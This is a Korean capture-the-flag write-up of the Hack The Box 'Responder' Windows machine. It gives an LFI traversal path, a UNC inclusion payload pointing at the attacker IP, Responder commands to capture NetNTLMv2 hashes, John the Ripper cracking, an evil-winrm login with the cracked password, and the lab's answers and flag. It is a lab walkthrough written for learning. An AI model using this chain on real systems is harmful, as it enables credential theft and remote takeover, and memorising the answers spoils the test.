







<div class="notion-page" markdown="1">

해당 문제는 HTB에서 라이트업 공개가 가능한 문제이므로 포스팅 합니다.

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### 문제 개요 
{: id="문제-개요"}

Responder는 웹 애플리케이션의 파일 포함(File Inclusion) 취약점을 탐색하고, 이를 악용하여 웹 서버를 실행하는 사용자의 NetNTLMv2 인증 응답(Challenge-Response) 을 수집하는 방법을 다루는 매우 쉬운 난이도의 Windows 머신입니다.

이 머신에서는 Responder 도구와 John The Ripper 해시 크래킹 도구를 사용하여 NTLM 인증 응답을 분석하고, 사용자의 평문 비밀번호를 알아내는 과정을 보여줍니다.

마지막으로 획득한 계정 정보를 사용하여 Evil-WinRM 도구로 대상 머신에 접속하고 터미널을 사용할 수 있습니다.

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK1
{: id="task1"}

> When visiting the web service using the IP address, what is the domain that we are being redirected to?

<code>unika.htb</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK2
{: id="task2"}

> Which scripting language is being used on the server to generate webpages?

다음처럼 /etc/hosts 에 등록을 해주고 접근 

{: w="393" h="120" }

{: w="465" h="134" }

응답을 받아보면 PHP 언어로 동작하는 것을 알 수 있다. 

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK3
{: id="task3"}

> What is the name of the URL parameter which is used to load different language versions of the webpage?

{: w="1221" h="237" }

<code>page</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK4
{: id="task4"}

> Which of the following values for the <code>page</code> parameter would be an example of exploiting a Local File Include (LFI) vulnerability: &quot;french.html&quot;, &quot;//10.10.14.6/somefile&quot;, &quot;../../../../../../../../windows/system32/drivers/etc/hosts&quot;, &quot;mimikatz.exe&quot;

원래 의도한 디렉터리를 벗어나 서버 <strong>로컬 파일 시스템</strong>의 파일을 읽어들이게 만드는 공겨이라서 답은 다음과 같음 

<code>../../../../../../../../windows/system32/drivers/etc/hosts</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK5
{: id="task5"}

> Which of the following values for the <code>page</code> parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: &quot;french.html&quot;, &quot;//10.10.14.6/somefile&quot;, &quot;./../../../../../../../windows/system32/drivers/etc/hosts&quot;, &quot;mimikatz.exe&quot;

외부 자원을 포함하는 중에 발생하는 취약점이기 때문에 답은 다음과 같음. 

<a href="https://10.10.14.6/somefile"><code>//10.10.14.6/somefile</code></a>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK6
{: id="task6"}

> What does NTLM stand for?

MS 개발한 인증 방식 중 하나. 

<code>New Technology Lan Manager</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK7
{: id="task7"}

> Which flag do we use in the Responder utility to specify the network interface?

<code>-I</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK8
{: id="task8"}

> There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as <code>john</code>, but the full name is what?.

<code>John The Ripper</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK9
{: id="task9"}

> What is the password for the administrator user?

#### 대상 분석 
{: id="대상-분석"}

{: w="812" h="104" }

현재 열려있는 포트는 2개이다. 아파치 웹 서버가 동작하는 곳과 WinRM이 동작하는 곳이다. 

또한 우리는 웹 애플리케이션에서 파일 경로 처리 기능 중 page 파라미터를 통한 외부 UNC 경로에 접근하도록 유도할 수 있었음

<div class="notion-blank"></div>

#### <strong>Responder 실행 및 SMB 인증 유도 </strong> 
{: id="responder-실행-및-smb-인증-유도"}

먼저 NTLM 응답을 캡쳐하기 위한 responder를 하나 띄우고 NTLM 인증을 시작해주기 위해서 <code>page</code> 파라미터에 공격자 IP를 포함한 UNC 경로를 전달한다. 이에 따라 웹 서버가 공격자 측 SMB 서버에 접근하게 되고, Responder가 SMB 서버처럼 동작하면서 NTLM 인증을 진행한다. Responder는 이 과정에서 사용자 이름, Server Challenge 및 NTLMv2 Response 등의 인증 자료를 수집한다. 

```plaintext
sudo responder -I tun0 -v
```

```plaintext
http://unika.htb/index.php?page=//10.10.15.216/somefile
```

{: w="821" h="297" }

Responder에서 획득한 NTLMv2 인증 자료를 <code>password.txt</code>에 저장한다.<br>먼저 rockyou 워드리스트의 압축을 해제한다.

```plaintext
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
```

이후 NTLMv2 응답을 크래킹한다. 

```plaintext
john --format=netntlmv2 \
--wordlist=/usr/share/wordlists/rockyou.txt \
password.txt
```

{: w="963" h="91" }

<code>badminton</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK10
{: id="task10"}

> We&#x27;ll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?

<code>5985</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK11
{: id="task11"}

> On which user&#x27;s desktop is the flag located?

```plaintext
evil-winrm -i 10.129.60.79 -u Administrator -p 'badminton'
```

{: w="633" h="294" }

<code>mike</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

### TASK12
{: id="task12"}

> Submit the flag located on the mike user&#x27;s desktop.

<code>ea81b7afddd03efaa0945333ed147fac</code>

<div class="notion-blank"></div>

<div class="notion-blank"></div>

</div>
